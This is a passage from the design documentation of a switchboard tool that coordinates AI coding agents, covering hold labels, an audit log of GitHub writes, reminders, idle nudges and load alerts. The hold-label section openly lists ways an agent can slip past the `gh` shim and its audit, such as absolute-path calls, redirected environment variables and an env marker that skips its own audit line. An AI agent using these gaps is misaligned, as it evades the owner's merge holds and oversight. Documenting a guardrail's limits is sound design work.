start) and `run` itself drop `HERDR_PANE_ID`, `HERDR_TAB_ID`, `HERDR_WORKSPACE_ID`, `OPENCODE_SESSION_ID`, `FLEET_SWITCHBOARD_ROLE` and `FLEET_SWITCHBOARD_REPO`, whichever agent's shell started it (a daemon that inherited an agent's session would otherwise resolve as that agent, and its calls to every other organisation's repos would 404 under the wrong account). Real agents' own typed `gh` calls carry no marker and are re-identified as before.

### The hold label of the `gh` shim, and the audit of every `gh` write (#376)

A project that must merge a pull request itself can hold it with a label. The config names, per repository, the label, the message and
the agents that may remove it (names below are invented):

```json
"hold_labels": {
  "acme-org/widget-api": {
    "label": "acme:hold-proof",
    "message": "held: the project merges this one itself",
    "allowed_removers": ["coordinator"]
  }
}
```

On a pull request of that repository that carries the label the shim refuses (exit status 1, the message printed once, the real `gh` not
run): `gh pr merge` in every form (`--admin`, `--auto` and `--disable-auto` included), `gh pr close`, `gh pr review --approve`, `gh pr edit
--base`, and the same writes through `gh api` (`pulls/N/merge`, `pulls/N` with `state` or `base`, `pulls/N/reviews` and `.../events` with
`event=APPROVE`, `issues/N` with `state=closed`). Removing the label (`gh pr edit --remove-label`, `gh issue edit --remove-label`, `gh label
delete` or `gh label edit --name` on it, `gh api` label DELETE, PUT or a `labels` field) is refused unless the caller (the
fleet name `whoami` gives) is in `allowed_removers`. It only ever ADDS refusals: reads, other repositories and unlabelled pull requests run as
before, and a repository with no entry costs no GitHub call. Repository names match case-insensitively, with or without `.git`, spaces or a
host; label names compare with NFKC and case folded; a target may be a number, a URL, a branch name or nothing (the real `gh` then says which pull
request it is). One bounded read (`FLEET_SHIM_HOLD_SECONDS`, default 5, between 0.2 and 10) answers which pull request and which labels, with
the account the write would use.

**Fail closed.** A label read that fails, times out or answers something unreadable, a config that cannot be read or whose entry is
malformed, a command shape the shim cannot follow (an unknown flag that may take a value, more than one target), a numeric `repositories/ID`
path, any `gh api graphql` mutation (a node id cannot be tied to a repository, so none can be checked: use the `gh pr` verbs), an alias (checked with `gh alias list`) and a shim whose
`gh_hold.py` cannot be loaded while the config names a hold, all refuse the write with a retry message. A failure is never remembered: the next
call reads again. Reads are never refused. `fleet-switchboard` checks the key when it loads the config (`hold_labels` entries need a
printable `label`, a one-line `message` and `allowed_removers` as agent names). The switchboard's own marker (`FLEET_SWITCHBOARD_OWN_GH`) does
not bypass it: an agent can set it.

**Live with no restart, and how to check it.** The shim directory is read on every call, so once the change is on the checkout and the config
names a repository, the next `gh` call is checked. On a labelled pull request run `gh pr merge <n> -R <owner/repo>`: it exits 1 with the
configured message and nothing is merged; on an unlabelled one it behaves as before. Removing the config entry switches it off.

**Audit of every `gh` write** (a guardrail: an agent that sets `FLEET_SWITCHBOARD_OWN_GH=1` skips its own audit line). Each write the shim passes on, and each it refuses, leaves one JSON line (`ts`, `verb`, `repo`, `number`,
`caller`, `outcome` = `passed` or `refused`) in `gh-writes.jsonl` in the directory beside the state directory with `-audit` added
(`~/.local/state/fleet-switchboard-audit/` by default), so "who merged this pull request" has an answer. A command line, a body, a token or a
query value is never copied; `repo` and `number` are `null` when the command names neither (a number of the current branch); `passed` means
handed to the real `gh`, not that it succeeded; the file is rotated at 1 MiB; a failed audit write changes nothing. Git credential calls and the
switchboard's own calls are not audited.

**The audit of the writes the shim lets through.** What the shim passes on that this hold does NOT check, by design or because it cannot tell
which pull request it touches, so that nobody mistakes it for a boundary (GitHub's branch protection and required reviews are the boundary):

- `gh pr update-branch`, `gh pr ready`, `gh pr reopen`, `gh pr lock`, `gh pr comment`, `gh pr review --comment` and `--request-changes`, `gh pr create`,
  every `gh issue` verb except `close` and `edit --remove-label`, `gh release`, `gh run`, `gh workflow`, `gh secret`, `gh variable`, `gh repo`,
  `gh gist`, `gh ruleset`, `gh codespace`, `gh cache`, `gh extension`, `gh config`, `gh auth`.
- `gh api` writes that are not one of the shapes above: `repos/o/r/merges`, `git/refs` (a branch delete or move), `pulls/N/update-branch`,
  `pulls/N/requested_reviewers`, comments, `branches/.../protection`, and anything addressed by `repositories/ID` for a path outside the guarded shapes.
- A `gh api graphql` query (no mutation) (a query file larger than 256 KiB is refused, not half read); a `gh` extension (neither a built-in nor an alias); a repository addressed by a name it had before a rename or transfer (matched by name, not canonical identity).
- A shell or alias that runs the real `gh` by its absolute path, or `git push` of a branch (the `git` shim routes credentials, it does not read holds).
- A caller that redirects the shim's own inputs: `XDG_CONFIG_HOME` or `HOME` (the config it reads), `FLEET_SWITCHBOARD_STATE` and `XDG_STATE_HOME` (where the audit goes),
  `FLEET_REAL_GH`, `PATH`, and `FLEET_SHIM_HOLD_SECONDS`. Every shim setting is read from the caller's environment, as the account binding already is: the hold is a
  guardrail for honest agents, never a boundary against a hostile one. Also the window between the label read and the real command (a label or a branch retarget in
  between is not bound).
- The existing review check (`--over-review`) and the plan gates are separate mechanisms, still fail-open as documented, and run after the hold.
The policy judge never reads the
pane variable: it judges the plugin's own `sessionID`, and `plugins/fleet-hooks` does the same. `status` lists the agent each live
session resolves to, a `WARNING` for any disagreement (a session shown in two panes, a name claimed by two sessions, a pane labelled
differently from its session's fleet name) and what the shell running `status` resolves to.

### Which program a pane runs

A pane is held ("runs a different opencode") unless its process is the configured v2. The comparison is by **resolved binary**, not
command text: both sides by realpath; and a pane started with the **bare command** (`opencode -s ses_...`, which the shell found on
its own path) is the same program when that name resolves, on the daemon's PATH, to the same real file. When it resolves to a
different file of the same name the two are still the same program if both answer `--version` with the same first line (a copy;
asked at most 3 seconds, remembered per file and modification time). Anything that cannot be decided is held: a shell, a name not
on the daemon's PATH, a relative path, a different binary or version, a pane that cannot be read. A program of any other name is
never asked for its version.

### Held for the owner: labels, not prose (#133)

Whether a PR is held for the owner, and why, is state in **labels** the switchboard reads, namespaced like the awaiting labels
(`<user>:...`, the OS user). `fleet-switchboard labels ensure` creates them in every watched repo (or `--repo`), idempotently and with
each repo's own gh account: `<user>:merge-captain` (held for the owner), `<user>:merge-automatic` (merges on green CI and independent
review), and the reasons a PR is held, one or more of `<user>:hold-security`, `hold-credential`, `hold-contract`, `hold-policy`,
`hold-prod-config`, `hold-other-area` (an area owned by another team), `hold-impact` (the impact floor or an independent rating, #179: written by the switchboard).

**One rule, one helper.** `is_captain(pr)` (a dict with `labels` and `body`) is the only place that decides it, used by the PR facts
(and so the captain decision), the sweep's S2 and the triage's T6/T7: a PR is captain when it carries `merge-captain`, **or**, during the
transition window only, when its body's first non-empty line starts with `MERGE: captain`. **The label wins on disagreement:**
`merge-captain` holds the PR whatever the line says, `merge-automatic` releases it whatever the line says, and the line is read only when
there is no merge label. The window is a dated constant, `CAPTAIN_MARKER_UNTIL` (2026-11-10, 30 days after the labels landed on 2026-10-11); the
one-line way to drop the marker is to set it to `None`, after telling the Chief of Staff. A captain decision lists its hold reasons
(`holds`, from the `hold-*` labels, nothing from prose), and a T6 finding carries them too.

**The sweep finishes the relabelling.** Two findings, both read-only: S6a, a PR of OURS (judged by the rule the triage uses to tell ours from
other-owner items: its author or an assignee is one of `our_logins`, or an agent of ours recorded a notice for it) whose first line says
`MERGE: captain` but which has no merge label (another team's author carrying the line is fine, not a finding); S6b, a PR whose merge label and first line disagree (or which carries both merge labels: held, and said so). Like every
sweep finding each is re-checked against a fresh read before it is raised. The sweep and the triage write nothing to GitHub: a person
(or the owning orchestrator) adds the labels.

**Finishing the relabelling: `labels apply-from-markers [--repo OWNER/REPO] [--dry-run | --apply]`.** A person's command (the daemon, the
sweep and the triage never run it). It lists the open PRs and issues of the watched repos whose first non-empty body line says
`MERGE: captain` or `MERGE: automatic` and which carry **no merge label**, and prints what would change; an item that already has a merge
label is left alone (the label is the truth; a disagreement is S6b, not ours to rewrite), and so is a line that is not the first. The
default is a dry run, the same as `--dry-run`; only `--apply` writes: it ensures the labels exist, then adds `<user>:merge-captain` or
`<user>:merge-automatic` with the repo's own gh account, each add audited (`decisions.labels`). A repo that cannot be read is said and the
others still run; a list longer than 1000 open items is said to be cut (run it again after labelling). Running it twice labels nothing
the second time.

### A decision write leaves the list current (#130)

`decisions escalate`, `resolve`, `answer` and `supersede` change GitHub (a label, a comment) or a marker, and the list the person and the
Chief of Staff read is the daemon's `decisions.json`. After a write the command pokes the daemon and then **waits, up to 6 seconds, for the
file to show the new state** (an escalated decision is the owner's tier, or gone; a resolved, answered or superseded one is gone). It only
reads the file: the daemon is the one writer, so nothing races it. If the file shows it, the command is silent about the list. If not, it
prints ONE honest line on stderr, `the change is written and applied at the next pass (about a minute at most): the decision list may
still show the old state until then`; with no daemon running the line says so and names `ensure`. A write never fails because of this wait.

### Self-wakes

Three ways an agent is woken by time, at **zero tokens while idle**: the daemon already passes every few seconds and
delivers a due reminder as an ordinary wake, so nothing in an agent polls.

**Remind yourself.** When you wait on time (a CI run, a rate limit, a checkpoint, another agent), run
`fleet-switchboard remind <your name> <when> --issue <n> "<text>"` and end your turn. `<when>` is `30m`, `+2h`, `1d`
or an ISO time with a zone. The role files of the coder and the orchestrator and the `fleet-coordination` skill say so.

**Cancel a reminder that became moot.** `remind ... --until-closed OWNER/REPO#N` (an issue, or a pull request closed
or merged) or `--until-merged OWNER/REPO#N` (a pull request merged) stores a condition; when the reminder is due the
switchboard reads that state once, and when it holds the reminder is dropped unsent and audited (`reminder.drop`, with
the reason). A state that cannot be read now leaves the reminder to deliver. A reminder with `--issue` and no condition of its
own gets `--until-closed` for that issue by default, so a reminder about finished work is dropped unsent; `--keep-if-closed` opts out.

**See and cancel your own reminders.** `remind --list` prints the pending reminders set by you or for you, oldest first
(id, time, recipient, issue, text; at most 50), and `remind --cancel <id>` removes one of them (audited as `reminder.cancel`);
another agent's reminder is not shown and is refused as unknown. Reminders live in `reminders.json` in the state directory, are
read by the daemon on every pass and are only removed once delivered, dropped or cancelled, so a daemon restart loses none
(a test arms one, starts a new engine over the same state and sees it fire).

**Quiet wakes (Chief of Staff).** When other news is in the same wake, every `worker.idle` line of a worker that
ended cleanly (`succeeded`) is folded into ONE line, `- quiet: N worker finishes with no change (names)`, whose keys are
still carried. A worker that failed, errored or was aborted is never folded: its line is shown in full. A stop after a
report since the worker's latest assignment is only a rider (it never wakes); a report from before the assignment does
not count, so a worker that stopped twice without reporting its new work is still told to the boss.

**Idle at a seam (#773).** A worker idle 20 minutes or more whose assignment (its `launch --issue`) is still open and whose last report was `working` gets ONE nudge ("you went idle after reporting working on #N: report done, blocked or question, or continue") and its boss ONE wake ("idle without a closing report: #N (worker X, last report: ...)"). Both are keyed by the idle stretch (`idle_at`), so a stretch is told once; a worker that resumes before 20 minutes, one whose last report is `done`, `blocked`, `question` or `failed`, a retired one, and a stop the unreported-stop triage already answers get nothing. It reads nothing new: the observation, `last-reports.json` (which now also keeps the report's one line), the retired list and the closed-issue events the hub already holds (no `gh` call, so after a restart a closed issue is known closed only once its event is seen again). Only a worker whose launch-record role is `coder` or `tester` is covered (#793): an orchestrator, the Chief of Staff, a reviewer lane or a role that cannot be read gets nothing, and neither does a worker whose issue is a charter, known from memory only (the issue is the `charter` of its own launch record or of any discovered agent's); it fails toward not nudging. A headless worker is the same observation.

**Legitimately waiting (#816).** The idle-at-a-seam rule and the stalled-working rule share ONE predicate, `legitimately_waiting`, and say nothing while it holds. A worker is waiting when: its last report is `blocked` or `question`; the issue or its pull request carries an awaiting label; CI is running or queued at the head of a pull request naming the issue; a review is requested (a person or a team) on a non-draft pull request, or such a pull request is younger than `review_window_minutes` (default 60; the open-PR list the daemon already keeps holds no reviews, so "no review yet" is that window); the worker set a reminder due later naming its issue (the checkpoint reminders `launch` sets, which carry a `while_running` condition, are the boss's and do not count; the stalled rule used to count them); or a human-tier decision exists for the issue or its pull request. It reads only what the daemon holds, and an input not read whole (the issue list, the open-PR list, the decision list), a pull request whose age cannot be told or an unreadable reminder file means no nudge and no wake (so the idle rule, which needs the worker's repository, now says nothing when none is known). The open-PR list is read only for a repository under `plan_gates`: for a worker whose repository is not, no guard can be judged, and both rules stay silent (no nudge, no wake) by the read-whole rule; this is chosen over the old unguarded nudge because that nudge is exactly the one sent to a coder waiting on its own pull request's CI or review. The guards are one table, `WAITING_GUARDS`, that the predicate loops over, and the tests run one case and one mutant per row. Nothing is stored while it holds, so the nudge and wake are said later, once under the same keys, if the worker is still idle when the wait ends. A worker the idle rule covers is never also reported by the stalled rule.

**What a worker owns (#874).** Both rules and every guard read ONE function, `worker_owned`: the assignment's issue, its sub-issues at any depth (from the parent links of the issue list the daemon already holds; bounded and cycle-safe), and every open pull request whose strict references (`PLAN:` first line, or a line that is only `Closes`, `Fixes`, `Resolves` or `Part of`) name any of them, whatever its base branch (so a pull request into an integration branch counts). The stalled rule judges the movement of all of it (updated times, and a head remembered per owned pull request), so a coder whose ask has a work item with a moving pull request is not woken; the guards hold on any owned issue or pull request. It makes no read: the table `OWNED_KINDS` and the consumer table `WORKER_OWNED_CONSUMERS` are what the tests loop over, and a list not read whole still means no wake and no nudge.

**Checkpoint reminders.** `fleet-switchboard launch` sets two reminders when the worker is up:

| Reminder | To | At | Text | Condition |
|---|---|---|---|---|
| checkpoint | the worker | the checkpoint | `checkpoint due: report now, one line` | the worker is still running; if it is gone the reminder is dropped |
| overdue | `--reports-to` (the launching orchestrator) | the overdue time | `<worker> has not reported since launch: overdue checkpoint` | delivered **only if the worker has not reported to anyone, or sent anything to that orchestrator, since the launch** (the check reads `last-reports.json`, which every report writes and every `send` marks per recipient (`send_to`, never touching the report's `state`: only a send to THIS orchestrator counts; the record is a guardrail, not a boundary, and a time in the future is ignored), so it holds under `v2_light` and after a rider was delivered and pruned; then the boss's transcript and riders); otherwise, or when the worker is gone, dropped. The text ends with `(last report from <worker> 12m ago)` or `(no report from <worker> since launch)` |

The times come from `--checkpoint 30m --overdue 60m` (a delay or an ISO time with a zone; the documented way), or, when
neither flag is given, from a best-effort parse of the brief's `CHECKPOINT:` line: `Report at 30 minutes ... overdue
at 60` (also `in 20m, overdue 45m`; a bare overdue number takes the checkpoint's unit; the overdue must be later). A
line that cannot be read, or a time more than 30 days out (or a number over 6 digits), makes no reminder and adds one line to the launch's stderr; it is never an error. A launch
with no brief and no flag is silent.

A reminder may carry an optional `condition`, checked only once it is due: `{"unless_report_from": <worker>, "since":
<launch time>}` and `{"while_running": <worker>}`. The check is one read of the boss's transcript and inbox (what the
decisions list already reads for reports; `synthetic_lines`) plus the rider file, and none at all for a reminder with no
condition. A report or send line from the worker, or a rider (a `working` report not yet carried), after `since` drops
the reminder; a worker that is not in the fleet drops it; both are audited as `reminder.drop` with the reason. If the
fleet cannot be read the reminder waits for the next pass. Reminders without a condition are exactly what they were.

**The daily friction wake.** Off unless enabled. Add to `config.json` (the section is validated like the other keys):

```json
"friction_wake": {"enabled": true, "hour": 9, "to": "cos", "cos_to": "improver", "text": null}
```

| Key | Default | Meaning |
|---|---|---|
| `enabled` | `false` | nothing happens, and nothing is read, unless `true` |
| `hour` | `9` | local hour (0-23, the daemon's time zone) of the daily wake; `null` = every 24 h from the first wake |
| `to` | `cos` | the agent a proposal goes to; named only in the text, and never woken by this |
| `cos_to` | `improver` | the agent the Chief of Staff's own friction proposals go to (changes that support the Chief of Staff's work are that orchestrator's to make); named only in the Chief of Staff's wake text, and the agent it names is never woken about itself |
| `text` | `null` | the orchestrators' wake text (the Chief of Staff's is always the default text with `cos_to`); `null` is `Daily friction check (one short answer): what slowed you or your coders down in the last day? If anything is worth fixing, send <to> a one-paragraph proposal: fleet-switchboard send <to> --issue <n> "<proposal>". If nothing, do nothing and say nothing.` |

Each running agent whose fleet role is `orchestrator` (never a coder, or the agent named by `to`) gets
at most one wake per slot, and so does the Chief of Staff (the same slot and rule; its text names `cos_to`, and its slot is
recorded under its own key, `cos:<name>`, in `friction-wake.json`), delivered by the ordinary delivery rule. An orchestrator a person has prompted within the engagement window, or that is blocked or held, is
skipped for now and asked again until the slot is four hours old; then that day's wake is skipped. The wake is made at the end of a
pass as an ordinary reminder to that orchestrator and recorded (audit event `friction.wake`; `friction-wake.json` in the
state directory holds the slot last asked), so a restart or the next pass makes no second one. That file is disposable: a
lost file means at most one extra wake. `fleet-switchboard status` shows one line, for example
`friction wake: on, 09:00 to cos; cos to improver; last slot 2026-10-11T09:00:00Z` (`off` when disabled).

**The load of each orchestrator, and the overload alert (#348).** Every daemon pass computes, per orchestrator (a fleet agent with the role `orchestrator`), a load figure from records the switchboard already has, keeps an hourly series for the current UTC day in `load.json`, and shows one line per orchestrator in `status` (`asks 3, stalled 1 (oldest 2.5 h), moved 1h 2; waiting 1 msg 2 dec; coders 2 busy 1 idle`). The figures and the `status` line are kept every pass whether or not the alert is on (the alert key turns only the wake off), so the reads below happen with it off too. An orchestrator's charter is the open issue, carrying an `<owner>:orchestrator` label (any prefix, at most two labels, one read each after the labels list), whose yaml block says `orchestrator: <its name>` (a trailing `# comment` and CRLF line ends are fine; with two issues naming one agent the lowest number wins), else the `charter` of its fleet metadata unless that issue's own yaml names another agent; an `issue` number in its metadata is never used. An orchestrator with none is named in one `no charter recorded for ...` line of `status`. A read that fails is not tried again for 5 minutes and is named in `status` meanwhile. Known limits: only the first 100 labels and 100 open labelled issues of a repository are read (no paging), and the charter reads count against `read_budget` with the asks lists, so with many repositories or orchestrators some lists refresh less than hourly (raise the key, up to 60). The figures: open asks (the open sub-issues of its charter, read from GitHub at most once an hour per charter and at most `load_alert.read_budget` reads an hour for each gh account (the repositories that account reads share it), otherwise the cached list); asks with no real movement in 2 h; messages (its reminders already due) and decisions (`decisions.json`) waiting on it; its coders busy and idle; asks moved in the last hour. **Real movement** of an ask is a push, a pull request opened or merged (recorded from the forwarder's webhooks into `ask-moves.jsonl`, 0600, kept one day, naming the pull request and the issues its body closes), a plan approved (the audit log's review consensus) or a report naming it (the audit log); a comment is not movement. An ask never seen to move counts as unmoved since the daemon first saw it. A figure whose source cannot be read is shown as `not recorded`, never zero, and an orchestrator whose asks cannot be read is never alerted: `status` says what was unreadable. After a daemon start nothing is judged until the first full pass has published a non-provisional `decisions.json` (the held-pull-request links are built from it): `status` says `load: waiting for the first full pass`, the figures and the alert's once-per-episode memory (`episodes` in `load.json`, which survives a restart) are left as they were, and no alert is sent (#796). After that pass the alert still waits, with `load: waiting for held PR links`, while a human-tier held pull request's links to its asks are not whole (its body's references not read, a parent read cut by the budget or a failure, or a noticed pull request the notice reader skipped or could not read in the last pass, counted in `notice_unread`); it waits at most 15 minutes after the first judged tick, so an unreadable link cannot silence it for ever.

The alert (the wake) is off unless enabled; the load line stays either way:

```json
"load_alert": {"enabled": true, "stalled_hours": 2, "stalled_asks": 2, "backlog_hours": 4, "read_budget": 30}
```

| Key | Default | Meaning |
|---|---|---|
| `enabled` | `false` | the Chief of Staff is woken on a crossing only when `true` |
| `stalled_hours` | `2` | an ask with no real movement for this long is stalled |
| `stalled_asks` | `2` | crossing 1: this many asks of one orchestrator stalled |
| `backlog_hours` | `4` | crossing 2: more open asks than were moved in this many hours while its coders are all busy (at least one coder, none idle) |
| `read_budget` | `30` | GitHub reads an hour for each gh account that the load figures may make (1 to 60; above 60 is a configuration error). A read GitHub answers with `304 Not Modified` is free and not counted; an account the rate limit has paused is skipped (nothing tried, nothing counted) and named in `status`. A full cycle (2 charter reads per repository, 3 at most, plus one asks list per orchestrator: about 20 reads for 10 orchestrators on 5 repositories) fits in an hour at the default; with more orchestrators than the budget allows, the oldest lists are read first and the rest the next hour |

On a crossing the Chief of Staff gets ONE reminder (the ordinary delivery rule; audit event `load.alert`) with the figures and a recommended action (move the named stalled asks to another lane; split a lane or add coders). It gets another only when the load is worse than at the last wake, or after the orchestrator recovered below both thresholds and crossed again. `fleet-switchboard load-replay [--day YYYY-MM-DD] [--stalled-asks N ...] [--json]` replays a recorded day of the hourly series (the current day and the last 3 finished days are kept in `load.json`) and prints when the alert WOULD have fired, by the same once-per-episode rule; it sends nothing, and the thresholds can be tried with other values. A day the series does not hold (a past day, from before this build) is rebuilt best effort from the audit log and its `audit-<date>.jsonl.gz` archives (`--from-audit` forces it): the orchestrators are the agents workers were started to report to, an ask is in play while a report, reminder or worker named it in the 24 hours before, and it moves when a report or a plan approval names it. The replay says what the audit does not hold: coders busy and idle, messages and decisions waiting (so the backlog crossing cannot be judged), and pushes and pull requests. A pull request whose referenced issue sits under an orchestrator's charter with no open ask on the chain counts as *charter movement* (`charter moves 1h N` in `status`): the lane is moving, so the busy-coders rule stays quiet, but no single ask is un-stalled. Rows written before references were logged carry only the issues they closed, and those are followed the same way. The decisions waiting on an orchestrator are the entries of `decisions.json` (at most 1000 are read) that carry an ask and whose issue chain (the ask, up to 3 parents, the same cached and budgeted reads; a repository not shaped like `owner/name` is not read) reaches one of its open asks or its charter; the `agent` field is a metadata guess and is not used, and a decision that cannot be resolved belongs to nobody and is counted in a `status` line. A PR heads-up (kind `notice`) or a held pull request (kind `captain`) waits on no orchestrator: it is never counted as waiting and is shown as one separate figure, `PR notices and holds N`. Any other entry without a usable ask (a permission request, a question with no issue) is a real wait that belongs to nobody, and is counted as not attributed. An ask is not counted as stalled while it waits on someone else, and each kind is counted by itself: `awaiting-user` is *waiting on owner*, `awaiting-cos` is *waiting on cos*, and a `parked` label with one valid `Parked until: YYYY-MM-DD` line still ahead (at most 366 days) is *parked*; the labels match by suffix, whatever the owner's prefix, `awaiting-live` (an ask that waits on a live event: a real threshold crossing, an owner's screenshot after an install, a multi-day measurement) is *waiting live*, and `awaiting-user` wins over `awaiting-cos`, `awaiting-cos` over `awaiting-live`, and all three over `parked`. A parked ask whose date has passed, or whose date is missing or invalid, is an ordinary ask. The labels and the body line come from the asks list the feed already reads (no extra GitHub read; as fresh as that list: up to an hour, but a webhook delivery of an issue closed, reopened, labelled, unlabelled, edited, deleted or transferred, or of a sub-issue change, marks that repository's list stale in `asks-stale.json`, and the next pass re-reads it, at most once per repository every 5 minutes and inside the account's read budget; an event for another repository leaves a list alone), and the date is read by the switchboard's own `parked_until`. An ask is also not stalled while a held pull request that serves it waits on the owner (a `captain` decision row of tier `human`; the link is only the strict references of the pull request's CURRENT body, read from the notice facts the daemon already holds: its first-line `PLAN:` link and its `Closes`, `Fixes`, `Resolves` or `Part of` lines, never a number in prose or a branch name, followed up the cached parent chain and compared by the full `owner/repo`; it is rebuilt every pass, so a reference removed from the body ends the wait, and a held pull request with no recorded notice has no link), nor while a held pull request at tier `cos` is younger than `stalled_hours` (counted as *waiting on cos*), nor while a pending reminder due later names it (its `issue`) for its orchestrator or an owned worker (*on a set time*); the load line and the wake then read `waiting on the owner: N (via a held PR), on a set time: M`. These read nothing from GitHub. Like the movement rows they are advisory: a pull request body (written by whoever opens the pull request) names the ask it serves, so the held-pull-request wait can be claimed by a strict reference to an ask, and a reminder's wait lasts until it is due (it has no upper bound, unlike a park); the real boundary is who may open pull requests and set reminders. The `status` row reads `stalled N, waiting on owner M, parked K, waiting on cos J, waiting live L`; the alert wakes only on stalled asks, and the busy-coders rule counts only asks that are not waiting or parked. A pull request moves every issue it refers to (`Closes`, `Part of`, `Refs`, a plain `#N`, an issues URL of the same repository, or a number that is a whole segment of its branch name), and through the parent chain every ask above it: a work item whose parent is an ask moves that ask (up to 3 levels). A parent never changes, so each is read once (`GET` of the issue, its `parent_issue_url`) and kept for good (at most 3000), counted in `read_budget` like the other load reads; one that cannot be read, or that the budget does not allow, is never guessed at: the movement stays unattributed and `status` says `N movement(s) not attributed`. With all coders busy, the second crossing fires only when an ask is stalled, or open asks are at least twice those moved in `backlog_hours` and none moved in the last hour; the wake says which. The movement rows come from outside (a pull request body names the issues it closes, so anyone who can open a pull request in a watched repository can reset an ask's stall clock): the signal is advisory and can be spoofed, and one body keeps at most 20 numbers. Known limit: a pull request counts for an ask only when its body closes that ask's own issue number (not a work item under it), and a push is seen only on a pull request.

### Data

The switchboard keeps almost nothing. Each fact lives in the system that owns
it, and is read from there each time it is needed.

#### Where each fact lives

| Fact | Lives in | Read with |
|---|---|---|
| Which panes run fleet agents, their status, and their session ids | herdr | `agent list` |
| Who an agent is: name, role, `reports_to`, issue | v2 session metadata, set at launch | `session.get` |
| Whether a worker's turn ended, when, and how | v2 `Session.Info` | `session.get` |
| What a blocked worker is waiting on | v2 | `permission.request.list`, `form.list` |
| When you last prompted an agent | v2 transcript | `session.message.list` |
| What has already been delivered | v2 transcript (synthetic messages' `metadata.fleet.keys`) and v2's inbox | `session.message.list`, `session.inbox.list` |
| Intent and Done-when | GitHub issue body | `gh api`, cached in memory |
| Charters, sub-issues, PRs, checks, reviews | GitHub | Webhooks, plus a catch-up read after gaps |
| Reminders not yet due | Switchboard file `reminders.json` | |
| How far each repo was read | Switchboard file `github-read.json`: `{"owner/repo": "<iso>"}`. A disposable cursor, not truth: deleting it means a fresh start | `status` shows its age per repo |
| What waits on you, and with whom | Derived each pass; the projection is `decisions.json`, every tier (PR 18). A prompt the Chief of Staff escalated: `escalated-requests.json`, a disposable head start | `fleet-switchboard decisions` |
| The PRs an orchestrator sent a heads-up about | Switchboard file `pr-notices.json` (PR notices): a disposable record, pruned when the PR merges or closes; the PR's facts are read from GitHub, cached 60 s | `fleet-switchboard notice pr` |
| The Chief of Staff's own standing orders | The owner's file `standing-orders.md` beside `config.json` (PR 18): not state, never written by the switchboard except the template `install` makes | `fleet-switchboard orders --cos` |
| What the switchboard did and why | Switchboard file `audit.jsonl` | |



In memory only, and rebuilt after a restart: batch timers, the Intent cache,
and the state of the GitHub forwarders.

Keys name the fact, for example `worker.idle:<session>:<idle_at>`,
`worker.blocked:<session>:<request id>`, `github.comment:<comment id>` and
`reminder:<id>`. Every switchboard message lists, in its metadata, the keys it
covers. To find what is already delivered, the switchboard reads only the
recipient's synthetic messages newer than the oldest candidate fact, so each
read is short.

#### A message's life



Delivered means in the recipient's transcript. Its keys are never sent again.

#### Invariants

1. **Derived, not stored.** Pending items are recomputed on every pass from
   herdr, v2, GitHub and the reminders file. Events only make a pass happen
   sooner; a missed event delays a delivery, it never loses one (except GitHub
   events from before a repo's read marker, which is forward only, and older than the look-back window).
2. **Delivered is a fact in the recipient's history.** A key found in the
   recipient's transcript or v2 inbox is never delivered again.
3. **At most once (S2).** The message id is derived from the recipient's
   session and the keys, so a retry after a crash reuses it and v2 admits it
   once.
4. **Re-check before every write.** The agent is observed again immediately
   before a note or wake; if the decision no longer holds, nothing is sent.
5. **Every external write is audited before and after.**
6. **Intent is read, never written** (PR 6). Changes to it are surfaced, never
   made by the switchboard.
7. **No secrets in either file.** OpenCode authentication stays inside
   `opencode api`, GitHub authentication inside `gh`. The webhook secret (PR 5)
